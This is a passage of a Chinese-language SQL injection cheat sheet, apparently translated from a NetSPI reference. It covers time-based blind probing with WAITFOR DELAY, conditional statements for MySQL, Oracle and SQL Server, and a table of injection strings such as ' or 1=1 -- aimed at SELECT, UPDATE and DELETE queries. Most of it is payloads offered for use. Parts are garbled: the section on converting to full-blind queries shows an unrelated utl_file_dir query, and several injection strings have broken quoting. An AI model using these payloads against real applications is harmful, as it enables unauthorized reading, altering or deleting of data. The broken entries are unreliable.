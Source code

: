 ##### **将部分盲查询转换为全盲查询**

通过使用以下转换，可以在全盲方案中使用上述任何查询：

```
SELECT value FROM v$parameter2 WHERE name = 'utl\_file\_dir';
```

##### **全盲**

全盲查询不会在 HTTP / HTML 响应中指示任何查询结果。这使他们依赖于定时功能和其他 out-of-band 攻击方法。一个真的 SQL 语句需要 X 秒的回应，一个假的 SQL 语句应该立即返回。

<table width="677"><thead><tr><th>描述</th><th align="center">语句</th></tr></thead><tbody><tr><td>Version is 12.0.2000.8</td><td align="center">IF exists(SELECT @@version where @@version like '%12.0.2000.8%') WAITFOR DELAY '00:00:02'</td></tr></tbody></table>

**0x03** **注入技术**
-----------------

以下是一些技巧，可以帮助您利用各种 SQL 注入。

### **1、条件语句**

条件语句有助于创建复杂的查询并帮助盲注入。

#### **MySQL**

<table width="677"><thead><tr><th>描述</th><th align="center">语句</th></tr></thead><tbody><tr><td>If/Else</td><td align="center">SELECT IF(1=2,'true','false')</td></tr><tr><td>逻辑 OR</td><td align="center">SELECT 1 || 0<br>看到这个运算符的细微差别去这里</td></tr></tbody></table>

#### **Oracle**

<table width="677"><thead><tr><th>描述</th><th align="center">语句</th></tr></thead><tbody><tr><td>Case</td><td align="center">SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END FROM dual</td></tr></tbody></table>

#### **SQL Server**

<table width="677"><thead><tr><th>描述</th><th align="center">语句</th></tr></thead><tbody><tr><td>Case</td><td align="center">SELECT CASE WHEN 1=1 THEN 1 ELSE 0 END</td></tr><tr><td>If/Else</td><td align="center">IF 1=2 SELECT 'true' ELSE SELECT 'false';</td></tr></tbody></table>

### **2、注入定位**

当注入发生的地方并不明显时，SQL 注入总是很麻烦。有一些方法可以在查询的各个部分利用注入是有帮助的。

`$injection`确定注入点。修改数据的注入尝试始终使用连接，并允许查询的其余部分有效。通过这个文章可以了解更多信息。

#### **MySQL**

<table width="677"><thead><tr><th>注入位置</th><th align="center">语句</th><th align="center">注入字符串</th></tr></thead><tbody><tr><td>SELECT -&gt; WHERE</td><td align="center">SELECT * FROM USERS WHERE USER='$injection';</td><td align="center">' or 1=1 --</td></tr><tr><td>UPDATE -&gt; SET</td><td align="center">UPDATE USERS SET email='$injection' WHERE user='NetSPI';</td><td align="center">''harold@netspi.com' '</td></tr><tr><td>UPDATE -&gt; WHERE&nbsp;<br>注意：尝试将注入字符串设置为有效的 WHERE 值。如果对象已更新，则注入成功。</td><td align="center">UPDATE USERS SET email='harold@netspi.com' WHERE user='$injection';</td><td align="center">''netspi' '</td></tr><tr><td>DELETE -&gt; WHERE&nbsp;<br>注意：运行删除语句时要非常小心，因为整个表都会被删除。</td><td align="center">DELETE FROM USERS WHERE USERS='$injection';</td><td align="center">''harold@netspi.com' '</td></tr></tbody></table>
